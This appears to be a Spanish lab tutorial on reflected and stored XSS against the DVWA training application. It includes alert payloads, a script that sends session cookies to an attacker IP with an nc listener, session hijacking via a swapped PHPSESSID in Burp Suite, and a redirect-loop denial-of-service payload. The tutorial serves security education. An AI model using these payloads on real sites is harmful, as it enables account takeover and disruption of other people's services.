 # Empecemos con las pruebas  XSS

# Empecemos con las pruebas  XSS

Muy bien para empezar necesitaremos tener la maquina de DWWA abierta. prodemos tener la maquina atraves de  tryhackme o por docker.

Vamos a iniciar por XSS reflect, acordarse que en la maquina de DWWA de poner el modo de seguridad en nivel low para que funcione las pruebas que vamos a hacer.

![Untitled](Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled.png)

Luego nos iremos al apartado XSS Reflected, aqui haremos primero una prueba muy simple.

 

```bash
<script>alert ("hola soy un ataque xss") </script> 
```

Si lo ponemos en el cuador de texto de “what`s your name?” vamos a ver que ocurre.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%201.png)

Como podemos ver nos suelta, una alerta que nos da el código que hemos introducido.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%202.png)

También podemos hacerlo un poco mas interesante por ejemplo que nos saque la IP del servidor.

```bash
<script>alert(document.domain)</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%203.png)

Con esto el atacante también podría hacer un ataque directamente a la ip del servidor.

Vamos a hacerlo aun mucho mas interesante porque vamos a coger de una forma “prestada” una cookie de sesión.

vamos a utilizar este codigo.

Este código lo que hace es que estamos utilizando código javascrit, y que le estamos creando un nuevo  objeto de la clase image, luego esta imagen con la propiedad src apunta a la URL especifica que incluye a donde le vamos a querer que envié la cookie y lo que queremos enviar que es la cookie de sesión que se aloja en document.cookie

```bash
<script>new Image().src="http://192.168.1.155/bogus.php?output="+document.cookie;</script>   
```

Acordarse cambiar la ip por la maquina de vuestro kali, y poner el kali en modo bridge.

ahora vamos a dejar nuestro kali preparado y levantado para que empiece a escuchar y nos llegue la cookie de sesión.

para dejarlo en modo escucha, en una terminal ponemos 

```bash
nc -vnlp 80
```

y una vez alguien le de click a la url o le demos al boton submit enviara la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%204.png)

Una vez esto abriremos nuestro burpsuite. abriremos nuestro burpsuite para poder interceptar las peticiones de nuestro navegador al servidor y viceversa y poder llegar a modificar la cookie. esto lo que hará es que podamos tener acceso a la pagina de DVWA sin haber iniciado sesión.

 Pondremos el burpsuite a interceptar paquetes dandole a la opcion “intercept is on”

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%205.png)

Como podemos ver en esta imagen no estoy logueado en ningún momento en DVWA

Ahora si nosotros escribimos y queremos que nos redirija a esa url que existe de la maquina.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%206.png)

el burpsuite nos saltara 

y debemos de modificar el apartado de la cookie por la nueva cookie

Antigua

---

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%207.png)

Nueva

---

Solo cambiamos el PHPSESSID= ques donde va a ir la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%208.png)

esto para guion

listo ya tendríamos acceso si haber logueado sesión anteriormente

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%209.png)

Al Obtener la cookie de sesión el atacante.

Bueno ya que creo que con esto os a picado la curiosidad vamos a pasar al XSS stored el almacenado, no tiene mucho misterio ya que lo que ocurre es que el código malicioso se quedaría guardado en el servidor es decir que cada vez que se vuelva a recargar la pagina se va a ejecutar y quien intente acceder a esa pagina también va a ejecutar el código malicioso.

 Asi que nos vamos al apartado de XSS Stored 

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2010.png)

Recordad que si por algun casual en DVWA no os deja escribir muchas letras, en inspeccionar elemento se puede cambiar la longitud máxima de caracteres.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2011.png)

Volviendo al XSS stored el codigo practicamente es el mismo que el XSS reflect solo que de por si se guarda. para hacer que cada vez que una persona que recargue la pagina le salga un alert.

```bash
<script>alert("hola esto es un xss stored")</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2012.png)

ahora la cosa esque esto se va a repetir continuamente cada vez que se recargue la pagina.

igual que anteriormente con xss reflect podemos tambien que renvie cookie de sesión pero lo que vamos a hacer es imaginar que el atacante quiere denegar el servicio a esta pagina. una de las formas para hacer esto podria ser con este codigo malicioso

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Como veis nos sigue redirigiendo a mi sitio [malicioso.com](http://malicioso.com) 🙂

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2013.png)

ya lo demas es exactamente igual que el XSS reflect